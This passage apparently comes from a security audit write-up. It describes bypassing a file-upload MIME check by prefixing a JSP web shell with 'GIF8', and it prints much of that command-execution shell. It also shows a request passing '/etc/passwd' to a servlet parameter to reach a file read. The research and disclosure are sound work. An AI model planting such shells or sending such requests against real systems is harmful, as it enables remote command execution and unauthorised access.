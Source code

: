 ```
[...]
0	string		GIF8		GIF image data
!:mime	image/gif
[...]
```

The comparisons began at the very first byte of our input stream and checked the first four bytes being equal to `GIF8`. And indeed, I was able to upload JSP code, even preserving the file extension, with something like this:

```
GIF8<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
    out.println("Command: " + request.getParameter("cmd") + "<BR>");

    Process p;
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1){
        p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
[...]
```

I even tried to copy this file into the **Tomcat ROOT directory** manually and was surprised that Tomcat happily served this file as JSP despite the `GIF8` prefix. We learnt something new!

Current status:

1. We could upload a malicious file thanks to a MIME type check bypass.
2. We didn't have to hold a special permission but any authenticated user.
3. We knew the file name and location on the file system.

We didn't test this with a serialized object instead of a JSP file but wanted to check the `CewolfServlet` call first. 

We made a request to `http://192.168.2.103/config/statistic/statrender?img=/etc/passwd` and **hit the breakpoint**

![CeWolf Hit](/assets/images/auditfails/cewolfhit.png)
